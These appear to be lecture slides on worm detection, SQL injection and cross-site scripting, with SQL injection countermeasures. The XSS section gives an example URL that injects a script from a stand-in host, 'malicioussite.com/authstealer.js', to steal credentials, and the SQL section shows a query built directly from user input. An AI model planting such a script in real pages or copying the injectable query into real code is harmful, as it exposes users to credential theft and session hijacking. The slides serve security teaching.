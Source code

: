 ## Monitoring and Detection of Internet Worms
- Speed is crucial:
  - SQL Slammer worm (January 2003) infected more than 90% of vulnerable computers on the Internet within 10 minutes
  - Successful worm attacks typically last several days, infecting hundreds of thousands of computers (Code Red, Nimda, Blaster, etc.)
- Aim: early detection

### Worm Monitoring System
- Consists of:
  - Local scan monitors for incoming and outgoing traffic
  - Data mixers gathering information from monitors or other data mixers (located at lower levels in a tree structure)
  - Warning center accumulating information about the whole network and performing detection

### Worm Detection
- The range of methods developed for Intrusion Detection Systems can be used for worm detection
- Special role of anomaly detection systems (suitable for detecting unknown worms):
  - Threshold-based: detection of bursts in network traffic
  - Trend-based: detection of trends in network traffic, based on the fact that worms propagate exponentially in early stages

## Categories of Attacks: Insertion Attacks
- On data-driven and web applications:
  - SQL injection
  - Cross-site scripting (XSS)

### SQL Injection
- An instance of insertion attacks
- Main target: data-driven applications
- Mostly used for database-backed websites but can be used to attack any type of SQL database
- Most frequently occur when queries are constructed from user inputs
- Example:
  - Simple SQL query: `SELECT data FROM table WHERE field = '$INPUT';`, where `$INPUT` is user input
  - Malformed or smartly designed input allows performing unintended actions (e.g., returning all data from the table or deleting a table)

#### SQL Injection Countermeasures
- Input type checking/input sanitizing
- Positive pattern matching (only "good" strings allowed)
- Avoid dynamic SQL use
- Parameterized queries (prepared statements) that pre-compile SQL statements (only values for parameters need to be supplied for execution)
- Penetration testing

### Cross-Site Scripting (XSS)
- Another instance of insertion attacks
- Typical context: HTML code displays input from the user (e.g., in a search system)
- If the input includes scripting tags, the browser can be tricked into executing a script provided by the user
- Example: `http://searchsite.org/search?q=something<script%20src="http://malicioussite.com/authstealer.js"></script>`
- Can be used for stealing user credentials or hijacking web sessions via executing the scripts originated by the attacker
